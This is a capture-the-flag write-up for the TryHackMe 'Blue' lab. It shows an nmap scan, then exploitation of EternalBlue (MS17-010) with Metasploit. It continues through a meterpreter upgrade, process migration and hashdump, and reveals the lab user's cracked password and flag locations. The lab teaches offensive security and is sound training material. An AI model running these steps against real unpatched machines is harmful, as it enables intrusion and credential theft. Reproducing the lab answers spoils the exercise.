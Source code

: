 ```yaml
---
title: Blue
date: 2020-05-26
hero: /images/posts/try-hack-me/blue.gif
categories:
- "try-hack-me"
tags:
- windows
- metasploit
- eternal-blue
---
```


Blue explores the dated, but widespread EternalBlue exploit. This exploit was used in the WannaCry ransomware attack which crippled healthcare systems and spread to millions of computers in a matter of days. In this room we are prompted to exploit this vulnerability using Metasploit.

## Tools

* metasploit
* nmap

## Walkthrough

First things first. Let's conduct a scan on the box using the command `nmap -sS -sV -A $IP`. 

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 00:27 EDT
Nmap scan report for 10.10.203.178
Host is up (0.14s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-24T04:28:55+00:00; -1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h14m59s, deviation: 2h30m00s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:fd:24:c1:40:16 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-23T23:28:50-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-24T04:28:50
|_  start_date: 2020-05-24T04:27:10

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.79 seconds
```

Looking at the results the machine is running Windows 7 Professional 7601. If we google this version number we can find out that this version might be vulnerable to the "EternalBlue" (MS17-010) vulnerability. You can read more about it [here](https://www.exploit-db.com/exploits/42315). Now that we are done with recon, we can begin to try and gain access.

To gain access we are going to be using `metasploit`. To start `metasploit` use the command `msfconsole`. Then let's ping the server just to be sure that we can connect. `ping $IP`. In the `metasploit` console we can use the command `search MS17-010` to see exploits we can use. Next we can see payload 3 that has the title `exploit/windows/smb/ms17_010_eternalblue`. This is the code will will use to run against the machine. Now that these payloads are found we can use the command `use 3` to load the payload. Now that we have our payload set we can the options. Use the command `show options` to see which options we need to set in order to use our attack. We can see that the only field that is required but not set is the `RHOSTS`. To set this field we can use the command `set RHOSTS 10.10.100.140`. Now when we do `show options` again we should be able to see our target IP address. Now that all the options are set run the command `exploit` to launch our payload.

Now that we have access to the machine that we want, we can upgrade our shell to a `meterpreter` shell. The easy way to do this, given that we have already put the shell in the background using CTRL-Z. We can use the command `sessions` to see the sessions. In my instance the session we are interested in has the ID 1. So I will use the command `sessions -u 1`. But you can also use the module `post/multi/manage/shell_to_meterpreter`, then use the command `use post/multi/manage/shell_to_meterpreter`. Now that we are using the post exploit module we can set the SESSION option to the session ID. Use the command `set SESSION 1`. Now that the session is set, let's fire up the meterpreter. Now let's `run`. Once execution is complete press enter and select the new meterpreter session from our available sessions. Use the command `sessions 2`. Now that we are in the meterpreter shell we can use the command `shell` then `whoami` to verify that we are the `nt authority\system` user. Now let's take a look at the processes using the command `ps`. Write down a process id towards the bottom of the list to migrate to. This might be unstable and not work the first time. If it fails try again (this is what tryhackme says). I used the `LiteAgent.exe` process and it worked. Now that we have migrated the process let's get the user's hashes. Use the command `hashdump` and if the privileges were escalated correctly we should see all the users and their hashes. We can also see that there is a user named 'Jon'. Now to crack his password. I used the website [CrackStation](https://crackstation.net/). To crack the password. Turns out this user's password is `alqfna22`.

The first flag can be found in the root directory in the file `flag1.txt`. The third flag is in the user Jon's documents. The second flag is found in the directory `C:/Windows/system32/config`. This is also the directory where windows passwords are stored. Interesting stuff.

This was a fun box and I feel like I have a better understanding of navigating through Windows directories and using the metasploit.
